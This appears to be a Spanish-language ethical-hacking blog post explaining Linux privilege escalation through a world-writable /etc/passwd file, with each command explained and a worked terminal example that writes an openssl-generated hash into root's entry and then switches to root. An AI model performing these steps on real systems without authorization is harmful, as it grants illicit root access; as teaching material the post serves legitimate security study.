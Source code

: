 ```yaml
---
layout: single
title: Escalando Privilegios - Writable - Etc/Pass & Other 1.1.2
excerpt: "El permiso -write- (w) puede ser vulnerable, ya que nos permite modificar ficheros y añadir parámetros que nos permitan escalar desde un usuario con pocos privilegios al usuario root esquivando contraseñas. En esta ocasión buscaremos desde un usuario de bajos privilegios, todos los archivos que podamos -Escribir-  y aprovechar para acceder al usuario root, sin restricción."
date: 2022-03-16
classes: wide
header:
  teaser: /assets/images/htb-writable-etc-pass-other/writable-etc-pass-other.jpg
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - vulnerabilidad
  - infosec
tags:  
  - privilegios
  - basic
  - escalar
  - suid
  - vulnerabilidad
---
```


![](/assets/images/htb-writable-etc-pass-other/writable-etc-pass-other.jpg)

#TERMINAL

`└──╼ $find \-writable 2>/dev/null | grep "etc"`

`$find` Nos permite buscar y encontrar archivos y directorios

`\-writable` Para indicar que buscamos archivos en los que podamos escribir.

`2>/dev/null` Para eliminar todos los archivos con los que no podamos interactuar.

`| grep` Nos permite buscar una cadena de caracteres en un archivo especifico.

__


`└──╼ $cat etc/passwd | grep "pepito"`

`$cat` Es uno de los comandos mas útiles ya que nos permite crear, fusionar o imprimir en pantalla archivos.

__


`└──╼ $ls -l etc/passwd`

`$ls`Sirve para listar archivos y directorios.

`-l` Es un indicador que nos permite listar archivos y directorios con los siguientes detalles:
    
    - Permisos de contenido
    
    - Número de enlaces al contenido
    
    - Propietario del contenido
    
    - Propietario del grupo del contenido
    
    - Tamaño del contenido en bytes
    
    - Fecha / hora de la última modificación del contenido
    
    - Nombre de archivo o directorio

__


`└──╼ $openssl passwd `

`$openssl` Es una -toolkit- Usada para asegurar las conexciones dentro en un servidor dentro de un sofware.

`passwd` Indicador para asignar una contraseña

__


`└──╼ $nano /etc/passwd`

`$nano` Es un editor de texto

__

`└──╼ $su root`

`su` Es un comando que se usa para cambiar de usuario.

#EXPLANATION

Aprovecharemos la vulnerabilidad del fichero `/passwd` el cual nos permite escribir (w) sobre él, para añadir un HASH que crearemos al generar una contraseña con la herramienta `$openssl`. Para luego acceder al usuario `root` usando el comando `$su`, ya que según el orden en el que se ejecuta se leerá nuestro HASH y no la X donde se almacena el HASH de la contraseña real de root.

#EXAMPLE

```
┌─[pepito@Tahy]─[/]
└──╼ $find \-writable 2>/dev/null | grep "etc"
./etc/systemd/network/90-mac-for-usb.link
./etc/systemd/system/iodined.service
./etc/systemd/system/samba-ad-dc.service
./etc/udev/rules.d/73-usb-net-by-mac.rules
./etc/passwd
┌─[pepito@Tahy]─[/]
└──╼ $ls -l etc/passwd
-rw-r--rw- 1 root root 3449 mar 17 07:15 etc/passwd
┌─[pepito@Tahy]─[/]
└──╼ $openssl passwd 
Password: 
Verifying - Password: 
xXeocY6cDYNVI  <- (NUESTRO HASH)
```

```
└──╼ $cat /etc/passwd | grep "root"
root:x:0:0:root:/root:/usr/bin/zsh
```

REMPLAZAMOS LA (X) por nuestro HASH

```
└──╼ $cat /etc/passwd | grep "root"
root:xXeocY6cDYNVI:0:0:root:/root:/usr/bin/zsh
```

```
┌─[✗]─[pepito@Tahy]─[/]
└──╼ $su root
Contraseña:  <-- LA CONTRASEÑAS ASIGNADA EN OPENSSL

```
#TRAINING

FUENTES: 

- [https://www.mastermind.ac/courses/introduccion-al-hacking-etico](https://www.mastermind.ac/courses/introduccion-al-hacking-etico)

